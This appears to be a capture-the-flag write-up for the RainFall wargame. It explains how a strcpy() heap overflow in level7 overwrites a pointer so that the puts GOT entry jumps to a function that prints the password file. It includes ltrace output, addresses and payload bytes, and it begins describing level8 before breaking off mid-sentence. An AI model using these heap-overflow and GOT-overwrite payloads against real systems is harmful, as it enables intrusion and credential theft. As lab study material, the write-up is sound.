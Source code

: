 `main()` reads the contents of `/home/user/level8/.pass` and puts it a global variable `c` that is only printed in function `m()`.

`m()` is never called, but there is an invocation of `puts@plt` which GOT-provided address we can overwrite.

We see with `ltrace` that `argv[1]` and `argv[2]` are given to calls to `strcpy()` along with two locally `malloc-ed` pointers.

```shell-session
level7@RainFall:~$ ltrace ./level7 ayooooo ayoooooooooooo
__libc_start_main(0x8048521, 3, 0xbffffce4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                 = 0x0804a008
malloc(8)                                                 = 0x0804a018
malloc(8)                                                 = 0x0804a028
malloc(8)                                                 = 0x0804a038
strcpy(0x0804a018, "ayooooo")                             = 0x0804a018
strcpy(0x0804a038, "ayoooooooooooo")                      = 0x0804a038
```

We see there is an offset of `20` between both `malloc-ed` address given to `strcpy()` calls. This makes it possible to overwrite the second pointer with the address of uncalled function `m()`.

- address of `m()` : 0x080484f4
- offset of buffer is 20
- pointer address of GOT: 0x8049928
Therefor, we can exploit both: `strcpy()` vulnerability and `malloc()` behaviour in order to overwrite the second pointer with the GOT pointer address with the addres of `m`.

Previous codeblock becomes:

```shell-session
strcpy(0x0804a018, "01234567890123456789\x28\x99\x04\x08")   = 0x0804a018
strcpy(0x08049928, "\xf4\x84\x04\x08")                       = 0x08049928
```

# level8

## Type of exploit

Reverse engineering + `malloc()` allocation behaviour exploitation

## Details of level8

Program is an infinite loop that awaits a series of input strings in order to do different tasks.

`auth ` allocates a pointer with `malloc()`
`service` does too
`reset` frees the pointer allocated by `auth `
`login` may prompt a shell if (`auth `_pointer + 8 != 0)

if you call:

- `auth ` then `servic` twice

